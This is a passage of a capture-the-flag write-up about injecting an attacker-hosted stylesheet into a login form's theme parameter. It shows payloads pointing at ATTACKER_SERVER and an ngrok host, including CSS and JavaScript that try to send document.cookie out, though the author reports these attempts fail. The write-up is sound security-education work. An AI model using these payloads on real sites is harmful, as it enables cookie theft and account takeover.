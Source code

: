 {% code overflow="wrap" %}
```
url=https://fancy-login-form.ctf.zone/?theme=https://ATTACKER_SERVER/css/ocean
```
{% endcode %}

We get a hit for the `/css/ocean.css` file (meaning we don't control the file extension), so we can create that file on our server. Let's set the contents to import another URL.

{% code overflow="wrap" %}
```css
body {
    background-image: url("https://4ad824cfde68.ngrok-free.app?flag=meow");
}
```
{% endcode %}

![](images/2.PNG)

Unfortunately, I tried various payloads to execute JS here, e.g.

{% code overflow="wrap" %}
```css
body {
    background-image: url("https://4ad824cfde68.ngrok-free.app?flag=" + document.cookie);
}
```
{% endcode %}

These resulted in no request being made to the attacker server (not just a missing cookie). I also tried hosting an external JS file, e.g.

{% code overflow="wrap" %}
```javascript
var img = new Image();
img.src = "https://4ad824cfde68.ngrok-free.app?flag=" + document.cookie;
```
{% endcode %}

Which we import via the attacker-controlled CSS.

{% code overflow="wrap" %}
```css
@import url("https://ATTACKER_SERVER/payload.js");
```
{% endcode %}

It successfully imports, but we don't get the `?flag` request.

![](images/3.PNG)
